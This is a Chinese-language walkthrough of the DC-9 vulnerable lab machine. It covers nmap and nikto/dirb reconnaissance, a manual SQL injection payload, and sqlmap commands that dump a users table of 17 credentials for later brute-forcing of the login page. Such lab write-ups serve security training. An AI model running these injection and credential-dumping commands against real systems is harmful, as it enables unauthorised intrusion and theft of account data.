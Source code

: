 # DC9漏洞复现记录
## 1.信息收集
IP扫描
 
    nmap -sP 192.168.149.0/24
     
对比MAC确定靶机IP为 192.168.149.135
 
    nmap -sC -sV -oA dc-9 192.168.149.135

发现开启了22与80端口、并访问80端口
进行**目录扫描**

    nikto -host IP
    dirb IP

目录扫描未发现可疑目录

Apache默认目录 /var/www/html 等等

查看网页源码未发现可疑点

## 2.SQL注入获得用户
该网站存在一个查询框，可能存在**SQL注入漏洞**

    输入尝试的payload 
    
    ' or 1=1 --+
    
    成功查出所有数据————存在SQL注入漏洞

使用 **sqlmap** 进行SQL注入，kali也自带sqlmap

域名为查询后的域名，即查询访问的文件地址

    查询使用数据库
    
    sqlmap -u "http://192.168.149.135/results.php" --data "search=1" --dbs
    
       查询到三个库
       
       information_schema、Staff、users
     
    查询users库中所有表 
    
    sqlmap -u "http://192.168.149.135/results.php" --data "search=1" -D users --tables 
    
       只查询到一个表
       
       UserBetails
     
    查询表中所有数据
    
    sqlmap -u "http://192.168.149.135/results.php" --data "search=1" -D users -T UserDetails --dump
    
       查询到17个账号密码（可将其做成字典）

对登录界面进行**爆破**
